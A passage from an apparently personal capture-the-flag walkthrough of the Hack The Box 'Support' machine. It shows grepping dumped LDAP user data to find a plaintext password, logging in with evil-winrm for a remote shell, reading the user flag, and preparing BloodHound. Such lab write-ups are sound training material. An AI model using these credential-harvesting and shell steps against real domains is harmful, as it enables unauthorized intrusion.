 ```sh
-rw-r--r-- 1 root root       2 Aug  8 22:07 domain_trusts.json
-rw-r--r-- 1 root root   17705 Aug  8 22:07 domain_users_by_group.html
-rw-r--r-- 1 root root    4588 Aug  8 22:07 domain_users.grep
-rw-r--r-- 1 root root   11468 Aug  8 22:07 domain_users.html
-rw-r--r-- 1 root root   50289 Aug  8 22:07 domain_users.json
```

## User Credentials

It took a fair bit of looking through them but eventually I found this:

```json
┌──(root㉿kali)-[~/htb/support]
└─# cat domain_users.json | grep -A3 CN=support
            "CN=support,CN=Users,DC=support,DC=htb"
        ],
        "info": [
            "Ironside47pleasure40Watchful"
```

We have a user called support with what looks like a password. Our nmap scan told us port 5985 is open, so we can use Evil-WinRM to get us a shell. We've used this a few times, an old but fun box from 2021 called [Return](https://pencer.io/ctf/ctf-htb-return/) is worth looking at.

## Evil-WinRM

Install if needed then use the creds we've found:

```sh
┌──(root㉿kali)-[~/htb/support]
└─# evil-winrm -i support.htb -u support -p Ironside47pleasure40Watchful
Evil-WinRM shell v3.4
*Evil-WinRM* PS C:\Users\support\Documents>
```

## User Flag

Grab the user flag first:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> type ..\Desktop\user.txt
0055fed644625bf18ae6d47461bbcf87
```

My usual starting point on Windows boxes in a domain is to use [Bloodhound](https://github.com/BloodHoundAD/BloodHound). I covered it recently on the box [StreamIO](https://pencer.io/ctf/ctf-htb-streamio-protected), where we looked at using SharpHound to dump the info and then copy over to Kali for investigating in Bloodhound. This time I'll use that fantastic Python implementation of it [here](https://github.com/fox-it/BloodHound.py) and we can do all the work from Kali.

## BloodHound

Before we start you'll need BloodHound and Neo4j set up on Kali, if you need help with that then I covered it [here](https://pencer.io/ctf/ctf-thm-postexploit) on an old TryHackMe room.
